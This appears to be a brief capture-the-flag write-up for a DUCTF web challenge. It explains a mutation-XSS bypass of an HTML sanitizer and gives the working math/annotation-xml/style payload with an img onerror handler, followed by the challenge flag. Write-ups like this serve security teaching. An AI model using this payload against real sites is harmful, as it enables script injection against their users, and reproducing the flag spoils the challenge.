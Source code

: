 ## Solution:
ref: https://jorianwoltjer.com/blog/p/research/mutation-xss

classic mutation xss, img src will survive because the sanitizer still thinks its inside mtext when the node is being removed.
```
<math><annotation-xml encoding="text/html"><style>
<mtext><img src=x onerror=alert(1)></mtext>
</style></annotation-xml></math>
```

Flag:  `DUCTF{if_y0u_d1dnt_us3_mutation_x5S_th3n_it_w45_un1nt3nded_435743723}`

Solved by: vicevirus